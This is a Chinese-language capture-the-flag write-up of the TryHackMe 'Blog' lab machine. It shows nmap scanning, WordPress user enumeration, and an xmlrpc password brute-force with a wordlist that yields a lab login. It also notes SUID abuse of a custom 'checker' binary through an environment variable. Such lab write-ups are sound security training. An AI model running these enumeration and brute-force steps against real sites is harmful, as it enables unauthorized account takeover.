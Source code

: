 ```yaml
---
sidebar_position: 87
tags: [Easy, Linux, 命令注入, SUID]
title: Blog
description: Blog
sidebar_label: Blog
slug: /tryhackme/87
---
```

# Blog
## 端口扫描

```bash
root@ip-10-10-116-83:~/blog# nmap -sTCV -p 22,80,139,445 --min-rate 1000 10.10.23.40

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-12 13:18 BST
Nmap scan report for ip-10-10-23-40.eu-west-1.compute.internal (10.10.23.40)
Host is up (0.00022s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (EdDSA)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 02:C0:75:7B:D6:29 (Unknown)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2023-09-12T12:18:50+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-09-12 13:18:50
|_  start_date: 1600-12-31 23:58:45
```

## 80
```bash
root@ip-10-10-116-83:~/blog# wpscan --url http://10.10.23.40/ -e u
[+] bjoel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.23.40/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] kwheel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.23.40/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Aggressive Detection)
......
root@ip-10-10-116-83:~/blog# wpscan --password-attack xmlrpc -t 10 -U kwheel,bjoel -P `locate rockyou.txt` --url http://blog.thm/
.....
[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - kwheel / cutiepie1
.....
```

## 后渗透
### www-data

![20240703214226](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703214226.png)

### www-data —> root

![20240703214237](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703214237.png)

枚举 SUID 发现一个没有见过的程序, 执行的时候发现其一直输出

```bash
(remote) www-data@blog:/home/bjoel$ /usr/sbin/checker
Not an Admin
```
将程序下载到本地进行查看并进行分析
![20240703214302](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703214302.png)

根据前文分析, 感觉是读取一个环境变量进行判断, 所以我开始了测试最后发现是 admin

![20240703214331](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703214331.png)
